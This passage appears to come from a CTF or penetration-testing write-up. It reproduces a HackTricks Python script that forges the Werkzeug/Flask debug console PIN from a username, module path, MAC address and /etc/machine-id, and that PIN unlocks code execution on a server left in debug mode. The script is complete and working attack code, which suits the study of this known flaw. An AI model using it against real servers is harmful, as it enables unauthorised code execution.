 [Werkzeug / Flask Debug - HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug)

Apparently the Pin generation system does not have fantastic randomness built in, it's just for testing after all and loudly advertises to not enable the debug system on a production system. And yet, here we are.

Lets look a bit at this proposed code from HackTricks to generate our own pin #.

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'web3_user',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '279275995014060',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'# get_machine_id(), /etc/machine-id
]

#h = hashlib.md5() # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```
